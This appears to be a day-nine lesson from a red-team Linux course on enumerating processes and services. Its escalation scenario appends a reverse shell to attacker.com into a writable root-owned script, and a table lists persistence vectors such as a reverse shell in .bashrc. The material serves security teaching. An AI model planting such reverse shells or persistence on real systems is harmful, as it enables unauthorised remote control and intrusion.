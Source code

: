 # Day 9 – Processes, Services & Enumeration
<img width="1200" height="400" alt="image" src="https://github.com/user-attachments/assets/889f5ffe-e362-4c06-a357-c83ab0bb131b" />

Linux systems run thousands of processes and services — and every single one is a potential **attack surface** or **persistence point**.

---

## 🧠 What Is a Process?

A process is a running instance of a command or application. You can list, monitor, or kill processes — or abuse them.

Run:
```bash
ps aux
```
## 🔧 Key Commands
| Command                | Purpose                            |
| ---------------------- | ---------------------------------- |
| `ps aux`               | List all system processes          |
| `top`                  | Real-time CPU/mem monitor          |
| `htop`                 | Enhanced top UI (needs install)    |
| `systemctl list-units` | List running services              |
| `systemctl status`     | View status/details of a service   |
| `ss -tuln`             | Show open ports/listening services |

## 🔍 Process Enumeration for Hackers
When you compromise a box, use:
```
ps aux | grep -v nobody
```

Things to look for:   
- Processes running as root
- Scripts with full paths (/home/user/script.py)   
- Sensitive args (e.g., mysql -u root -p<password>)   
- Writable scripts or binaries owned by root   
- Cron jobs or background services (systemctl, crontab, /etc/init.d/)   

## ⚠️ Real-World Escalation Scenario
1- Find a process:
```
python3 /opt/app/server.py
```

2- Check permissions:
```
ls -l /opt/app/server.py
```

3- If writable:
```
echo "bash -i >& /dev/tcp/attacker.com/4444 0>&1" >> /opt/app/server.py
```

4- Wait for service restart or trigger it with:
```
sudo systemctl restart server
```

## 🧪 Task of the Day
1- List running processes and highlight those owned by root
```
ps aux | grep root
```

2- Install and use htop for visualization:
```
sudo apt install htop
htop
```

3- Enumerate services:
```
systemctl list-units --type=service
```

4- Find writable or poorly configured services/scripts

## 🔐 Red Team Notes

| Vector                          | Example                     |
| ------------------------------- | --------------------------- |
| Writable service script         | Escalate on service restart |
| Credential in command-line args | Leak via `ps`               |
| Reverse shell in `.bashrc`      | Triggered by login shell    |
| Cron job overwrite              | Persistence                 |

📡 Learn real-world privilege escalation at:   
➡️ https://t.me/cybersecplayground


---

Be ready for **Day 10**, where we’ll dive into **cron jobs** and how they can be exploited or used for persistence.

📡 Learn real red team tactics on [@cybersecplayground](https://t.me/cybersecplayground)

#linux #privilegeescalation #processes #systemctl #redteam #hacking
